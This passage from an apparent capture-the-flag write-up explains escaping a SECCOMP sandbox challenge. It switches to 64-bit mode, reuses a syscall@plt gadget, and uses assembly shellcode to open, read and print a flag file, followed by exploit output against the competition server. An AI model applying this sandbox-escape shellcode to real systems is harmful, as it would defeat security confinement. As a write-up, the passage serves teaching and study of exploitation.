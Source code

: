 ```  
           /* Any code to execute in 64-bit mode */  
```

Once in 64-bit mode, we can bypass SECCOMP `instruction_pointer` rule by
executing pre-existing gadgets located above 4 GBytes.  
One of the available gadgets is `syscall@plt` from the sandbox binary:  
```  
0000000000000ce0 <syscall@plt>:  
ce0:   ff 25 9a 22 20 00       jmp    QWORD PTR [rip+0x20229a]        # 202f80
<syscall@GLIBC_2.2.5>  
```

Using this gadget we can construct following code to read `flag` file:  
```  
       hijack_64:  
           movabs  rax, 0x10000001e            /* address of kernel subroutine in kernelland entry page */  
           mov     rbp, [rax]  
           sub     rbp, 0x760                  /* move back to syscall@plt */

           /* open(pathname, O_RDONLY) */  
           mov     rdi, __NR_open  
           lea     rsi, [rip + pathname]  
           mov     rdx, O_RDONLY  
           call    syscall_gadget

           /* read(rax, rsp, 0x100) */  
           mov     rdi, __NR_read  
           mov     rsi, rax  
           mov     rdx, rsp  
           mov     rcx, 0x100  
           call    syscall_gadget

           /* write(1, rsp, rax) */  
           mov     rdi, __NR_write  
           mov     rsi, 1  
           mov     rdx, rsp  
           mov     rcx, 0x100  
           /* fall-through */  
       syscall_gadget:  
           push    rbp  
           ret

       pathname:  
          .asciz  "flag"  
```

Running full exploit against CTF server gives the flag:  
```  
$ ./exploit.py  
[+] Opening connection to sandbox-compat.ctfcompetition.com on port 1337: Done  
[DEBUG] Received 0x29 bytes:  
   'beef0000-bef00000 rw-p 00000000 00:00 0 \n'  
[DEBUG] Received 0x73 bytes:  
   'dead0000-dead1000 r-xp 00000000 00:00 0 \n'  
   'fffff000-100001000 r-xp 00000000 00:00 0 \n'  
   '[*] gimme some x86 32-bit code!\n'  
...  
[DEBUG] Sent 0x24 bytes:  
   00000000  bc 00 00 f0  be 81 ec 00  02 00 00 fd  6a 00 68 24
│····│····│····│j·h$│  
   00000010  00 ad de bf  02 00 00 00  8d 74 24 08  31 c0 48 c1
│····│····│·t$·│1·H·│  
   00000020  e0 0c 50 c3                                         │··P·││  
   00000024  
```
